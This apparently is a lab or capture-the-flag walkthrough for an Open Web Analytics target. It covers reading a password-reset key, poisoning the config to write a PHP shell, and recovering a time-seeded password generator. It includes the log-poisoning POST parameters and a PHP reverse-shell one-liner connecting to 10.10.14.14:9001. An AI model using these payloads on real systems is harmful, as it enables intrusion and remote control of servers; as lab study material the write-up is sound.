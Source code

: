 Looking around a bit further the id is set to the user_id value. Trying the md5 sum of user_id1 works!

Decoding the base64 then using php to unserialise gives a lot of data:
```
temp_passkey: 4d796bdd52b49d489aa057d94422a9d9
api_key: a390cc0247ecada9a2b8d2338b9ca6d2
```

Reading further on the blog post you can use the temp key to reset a users password.

## Python script
Something new I'm going to try is to make a 'auto pwn' python script for footholds where possible. 

## Log poisoning
Again in the post you can just add in the log level for the server in the POST req to update the config file on the admin panel. Adding this
```
owa_config[base.error_log_level]=2&owa_config[base.error_log_file]=/var/www/html/owa/owa-data/logs/shell.php&
```

Then the payload:
```
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1"); ?>
```

This gives a reverse shell.

# Foothold as www-data
There is a passwordGenerator PE32 file.

Looking at the strings output there is reference to python, so it is probs python source code.

Extracting with pyinstxtractor.py shows it was built with python3.7.

## Docker Time
Installing python3.7 inside docker cause removing python likes to break my box. :)

Getting the docker file [link](https://raw.githubusercontent.com/docker-library/python/8a8d6baac38dcd208f699ae2eb10f0893a764035/3.7/alpine3.17/Dockerfile) then building with docker: `sudo docker build .`

Inside the container get uncompyle using pip, then decompile the passwordgenerator.pyc file.
```bash
uncompyle6 passwordGenerator.pyc > passwordGenerator.py
```

Looking at how the password is generated the time is the seed.
```python
length = 32
charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
qsrand(QTime.currentTime().msec())
password = ''
for i in range(length):
    idx = qrand() % len(charset)
    nchar = charset[idx]
    password += str(nchar)
```
